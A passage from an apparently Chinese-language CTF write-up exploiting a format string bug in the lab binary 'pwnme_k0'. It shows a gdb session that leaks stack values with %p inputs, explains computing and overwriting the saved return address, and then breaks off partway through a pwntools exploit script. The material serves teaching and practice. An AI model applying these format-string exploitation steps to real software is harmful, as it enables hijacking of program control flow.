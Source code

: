 ```c
.text:00000000004008B5                 pop     rsi
.text:00000000004008B6                 pop     rdx
.text:00000000004008B7                 retn
```
用gdb调试程序，将断点下在有漏洞的printf函数上（0x400B39），然后输入用户名aaaaaaaa，密码%p.%p.%p.%p.%p.%p，再输入1查看
```c
pwndbg> b *0x400B39
Breakpoint 1 at 0x400b39
pwndbg> r
...
Register Account first!
Input your username(max lenth:20): 
aaaaaaaa
Input your password(max lenth:20): 
%p.%p.%p.%p.%p.%p     
Register Success!!
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>1
....
```
查看栈空间，在栈上偏移2（第七个参数）的是返回地址，只要将这个地址改掉就可以。我们知道存储返回地址的内存本身是动态变化的，但是其相对于 rbp 的地址并不会改变，所以我们可以使用相对地址来计算。而栈上偏移1存储的就是上一个函数的rbp，所以偏移为 0x7fffffffdce0 - 0x7fffffffdca8 = 0x38。

这样就可以用格式化字符串漏洞把第六个参数读取出来，然后通过偏移得到返回地址，再用格式化字符串漏洞将返回地址覆盖

![](/Fmtstr.assets/pwnme_k0.png)

因为0x4008AA和0x400D74只有低2字节不一样，只需要修改0x7fffffffdca8开始的2个字节
```python
from pwn import *
#context.log_level='debug'

p=process("pwnme_k0")
elf=ELF("pwnme_k0")


p.recvuntil("Input your username(max lenth:20):")
p.sendline("a*8")
p.recvuntil("Input your password(max lenth:20):")
p.sendline("%6$p")

p.recvuntil(">")
p.sendline("1")

p.recvuntil("0x")
```